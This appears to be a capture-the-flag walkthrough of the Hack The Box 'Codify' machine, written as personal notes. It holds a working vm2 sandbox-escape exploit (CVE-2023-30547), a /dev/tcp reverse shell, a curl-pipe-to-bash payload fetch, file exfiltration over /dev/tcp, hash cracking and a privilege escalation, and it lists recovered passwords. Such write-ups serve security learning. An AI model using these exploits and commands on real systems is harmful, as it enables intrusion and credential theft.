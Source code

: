 
```
nmap -sC -sV {10.129.138.108}
```

I see ports 22, 80, and 3000 are open. When I visit port 80 I find the domain `codify.htb` and add the domain to the hosts file.
![[Screenshot 2024-10-13 at 5.07.47 PM.png]]

```
echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts
```
In the directory `/editor` there is a code editor which allows us to test NodeJS code
![[Screenshot 2024-10-13 at 5.08.53 PM.png]]


The code editor uses the open source library `vm2`, which we can find on the `/about` page. There is a vulnerability CVE-2023-30547 in this library, this involves the improper sanitization of exceptions within the `vm2` sandbox, a feature intended to safely execute untrusted code. Attackers can exploit this flaw by raising a host exception that is not properly sanitized  in the `handleException()` function. By doing so, the attacker can escape the sandbox environment and execute arbitrary code on the host.

If we run the following code in the editor:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```
This executes the command `id`, which outputs:

```
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```
I prepared a `rev.sh`, a reverse shell to initiate a callback to our local machine.

```
  echo -e '#!/bin/bash\nsh -i >& /dev/tcp/<YOUR_IP>/4444 0>&1' > rev.sh
```
I run a web server to host the script:

```
python3 -m http.server 8081
```
And start a netcat listener:

```
nc -lnvp 4444
```

We edit the last line of the code on the web app to call the reverse shell.
```
c.constructor('return process')().mainModule.require('child_process').execSync('curl
http://10.10.14.99:8081/rev.sh|bash');
```
This gets us a shell on netcat, to get a better shell I ran `script /dev/null -c bash`.

Searching thru the web directories I found a SQLite database file in `var/www/contacts` directory. I transferred this file to my local box for more analysis.

On my local I ran, to listen:

```
nc -lnvp 2222 > tickets.db
```

Then sending the file to my local:

```
   cat tickets.db > /dev/tcp/10.10.14.99/2222
```

On my local I ran sqlite3 to analyze the file:

```
$ sqlite3 tickets.db

$ select * from users;
```
We get the user `joshua` and a hash, which I ran against hashcat to get the password `spongebob1`.

```
  hashcat --force -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

We can now ssh into `joshua` with those credentials. I found a user flag at `/home/joshua/user.txt`.

To find what files we can run as root I ran `sudo -l`, and joshua can run the file `/opt/scripts/mysql-backup.sh`. To get more analysis I ran the snooping tool `pspy64s`.

I downloaded the file locally and ran a web server in that directory:

```
$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
$   python3 -m http.server 8082
```
From the victim's box I used `wget`:

```
$ wget http://10.10.14.99:8082/pspy64s
$ chmod +x pspy64s
$ ./pspy64s
```
![[Screenshot 2024-10-13 at 5.28.32 PM.png]]

From another shell on our victim's box, we run the file we found from running `sudo -l`:
```
sudo /opt/scripts/mysql-backup.sh
```
After watching `pspy64s` run after we executed the file I found the root password `kljh12k3jhaskjh12kjh3`.

I login and get the root flag:

```
$ su root
$ cat /root/root.txt
```













